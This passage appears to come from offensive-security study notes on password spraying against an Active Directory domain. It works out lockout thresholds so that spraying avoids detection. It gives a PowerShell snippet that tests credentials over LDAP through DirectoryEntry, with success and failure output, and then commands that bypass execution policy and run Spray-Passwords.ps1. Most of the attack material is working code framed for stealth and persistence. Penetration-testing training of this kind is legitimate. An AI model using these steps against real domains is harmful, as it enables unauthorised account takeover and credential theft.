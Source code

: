 **Critical Policy Parameters:**
- **Lockout Threshold**: 5 failed attempts trigger account lockout
- **Lockout Duration**: 30-minute lockout period
- **Observation Window**: 30-minute reset period for failed attempts
- **Safe Attack Window**: 4 attempts per user before lockout risk

**Attack Calculation:**
- **Daily Attempts**: 192 login attempts per user per 24-hour period
- **Strategy**: 4 attempts, wait 30 minutes, repeat cycle
- **Risk Mitigation**: Avoid triggering lockouts while maintaining attack persistence

### LDAP-Based Password Spraying

**DirectoryEntry Authentication Method:**
LDAP-based authentication provides stealthy password validation with minimal network noise compared to SMB-based attacks.

**LDAP Path Construction:**
```powershell
# Build LDAP connection string dynamically
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName

# Test credentials via DirectoryEntry constructor
New-Object System.DirectoryServices.DirectoryEntry($SearchString, "pete", "Nexus123!")
```

**Successful Authentication Response:**
```
distinguishedName : {DC=corp,DC=com}
Path              : LDAP://DC1.corp.com/DC=corp,DC=com
```

**Failed Authentication Response:**
```
format-default : The following exception occurred while retrieving member "distinguishedName": "The user name or password is incorrect."
    + CategoryInfo          : NotSpecified: (:) [format-default], ExtendedTypeSystemException
    + FullyQualifiedErrorId : CatchFromBaseGetMember,Microsoft.PowerShell.Commands.FormatDefaultCommand
```

### Automated Password Spraying with Spray-Passwords.ps1

**Tool Location and Execution:**
```powershell
# Navigate to tools directory
cd C:\Tools

# Bypass execution policy
powershell -ep bypass

# Execute password spray attack
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin
```
